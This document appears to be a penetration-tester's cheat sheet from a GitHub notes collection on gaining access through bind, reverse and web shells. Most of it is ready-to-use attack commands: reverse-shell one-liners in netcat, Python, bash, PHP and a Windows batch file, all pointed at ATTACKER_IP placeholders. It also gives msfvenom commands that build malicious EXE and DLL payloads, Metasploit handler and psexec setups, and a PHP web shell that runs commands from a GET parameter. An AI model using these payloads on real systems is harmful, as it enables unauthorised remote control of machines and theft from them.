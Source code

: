 ```yaml
---
title: 3 – Reverse Shell
summary: Gaining Access step – a note for obtaining a reverse shell on the target.
description: Gaining Access step – a note for obtaining a reverse shell on the target.
---
```


# Reverse vs Bind vs Web Shell

---

### Bind Shell

**The code is used to start a listener attached to a shell on the target.** 
Then we can connect to the port to obtain remote code execution. 
This has the advantage of not requiring any configuration on our network, but may be prevented by firewalls protecting the target.

### Reverse Shell

**The code makes the target to connects back to the attacker computer.** 
Reverse shells are a good way to bypass firewalls. The drawback is that we need to configure our network to accept the shell: we need to set up an handler.

### Web Shell

**The code allows the attacker to send shell commands to the target server via a web page hosted on this server.**

# Reverse Shell Handlers

---

### NETCAT


 > 
 > **<font color=red>nc -lvnp</font> \[ATTACKER_PORT\]**</br>
 > Open a listener on delected port.

---

### METASPLOIT


 > 
 > **<font color=red>use</font> <font color=lightblue>exploit/multi/handler</font>**</br>
 > 
 > **<font color=red>set payload</font> linux/x86/meterpreter/reverse_tcp**</br>
 > Handler for linux (efl) reverse shell.

# Reverse Shell Multi

---

### Resources

[PayloadsAllTheThings Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp)

[Pentestmonkey Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

---

### NETCAT


 > 
 > **<font color=red>nc -e /bin/bash</font> \[ATTACKER_IP\] \[ATTACKER_PORT\]**</br>
 > Reverse shell. 

---

### PYTHON


 > 
 > **<font color=red>python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("</font>\[ATTACKER_IP\]<font color=red>",</font>\[ATTACKER_PORT\]<font color=red>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'</font>**</br>
 > Reverse Shell.

---

### PHP


 > 
 > **<font color=red>\<?php</font>**</br>
 > **<font color=red>exec("/bin/bash -c 'bash -i > /dev/tcp/</font>\[ATTACKER_IP\]<font color=red>/</font>\[ATTACKER_PORT\] <font color=red>0>&1'");</font>**</br>
 > **<font color=red>?\></font>**</br>
 > Very simple reverse shell.

Fancy reverse shell:
**[Pentestmonkey PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)**
Location on Kali: <font color=lightblue>/usr/share/webshells/php/php-reverse-shell.php</font>

# Reverse Shell Windows

## 

---

### BAT


 > 
 > **<font color=red>@echo off nc.exe</font> \[ATTACKER_IP\] \[ATTACKER_PORT\] <font color=red>-e cmd.exe</font>**</br>
 > Reverse Shell.

---

### HOAXSHELL


 > 
 > **<font color=red>sudo python3 hoaxshell.py -s</font> \[ATTACKER_IP\]**</br>
 > Create a reverse shell payload (that utilizes `Invoke-Expression`) and start a handler.

---

### MSVENOM


 > 
 > **<font color=red>msfvenom -p windows/x64/shell_reverse_tcp LHOST=</font>\[ATTACKER_IP\] <font color=red>LPORT=</font>\[ATTACKER_PORT\] <font color=red>-f exe -o</font> shell<font color=red>.exe</font>**</br>
 > Generate a reverse shell exe.

 > 
 > **<font color=red>msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=</font>\[ATTACKER_IP\] <font color=red>LPORT=</font>\[ATTACKER_PORT\] <font color=red>-f exe -o </font>shell<font color=red>.exe</font>**</br>
 > Generate a meterpreter reverse shell exe.


 > 
 > **<font color=red>msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=</font>\[ATTACKER_IP\] <font color=red>LPORT=</font>\[ATTACKER_PORT\] <font color=red>-f dll -o</font> msfvenom_revshell<font color=red>.dll</font>**</br>
 > Generate a malicious DLL (meterpreter reverse shell).

---

### METASPLOIT (SMB)


 > 
 > **<font color=red>use</font> <font color=lightblue>exploit/windows/smb/psexec</font>**
 > 
 > **<font color=red>set lhost</font> \[ATTACKER_IP\]**</br>
 > **<font color=red>set rhosts</font> \[TARGET_IP\]**</br>
 > **<font color=red>set smbdomain</font> \[TARGET_DOMAIN\]**</br>
 > **<font color=red>set smbuser </font>\[TARGET_USER\]**</br>
 > **<font color=red>set smbpass</font> \[TARGET_IP\]**</br>
 > **<font color=red>set payload </font>windows/x64/meterpreter/reverse_tcp**</br>
 > Create a reverse shell from a SMB share.

# Reverse Shell Linux

---

### BASH


 > 
 > **<font color=red>bash -i >& /dev/tcp/</font>\[ATTACKER_IP\]<font color=red>/</font>\[ATTACKER_PORT\] <font color=red>0>&1</font>**</br>
 > Reverse Shell.

---

### MSVENOM


 > 
 > **<font color=red>msfvenom -p cmd/unix/reverse_netcat LHOST=</font>\[ATTACKER_OP\] <font color=red>LPORT=</font>\[ATTACKER_PORT\]**</br>
 > Generate a Linux reverse shell.

# Web Shell

---

### PHP


 > 
 > **<font color=red>\<?php</font>**</br>
 > **<font color=red>system($\_GET\["</font>cmd<font color=red>"\]);</font>**</br>
 > **<font color=red>?></font>**</br>
 > Web shell. After upload, go to http://\[TARGET_IP\]/myWebShell.php?cmd=whoami
